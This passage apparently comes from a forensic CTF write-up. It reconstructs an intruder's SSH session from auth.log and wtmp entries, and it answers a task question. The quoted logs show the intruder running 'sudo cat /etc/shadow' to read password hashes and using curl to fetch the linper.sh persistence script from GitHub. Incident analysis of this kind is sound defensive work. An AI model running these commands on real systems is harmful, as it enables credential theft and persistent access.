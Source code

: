 ## cyberjunkie Session

### Connection

The other successful authentication in `auth.log` is from the newly created
cyberjunkie user at 06:37:34:

    
    
    Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
    Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
    Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
    Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
    

`wtmp` shows the session starting one second later:

    
    
    [7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]
    

### Activity

Once logged in, there are a few actions that the cyberjunkie user takes that
are logged in `auth.log`. At 06:37:57, they print the `/etc/shadow` file
containing the password hashes for the users on the system using `sudo`:

    
    
    Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
    Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
    Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
    

About a minute later they download `linper.sh` from GitHub:

    
    
    Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
    Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
    Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
    

So the command run is `/usr/bin/curl
https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` (Task
8).

The logs don’t have any activity beyond that.

## Results
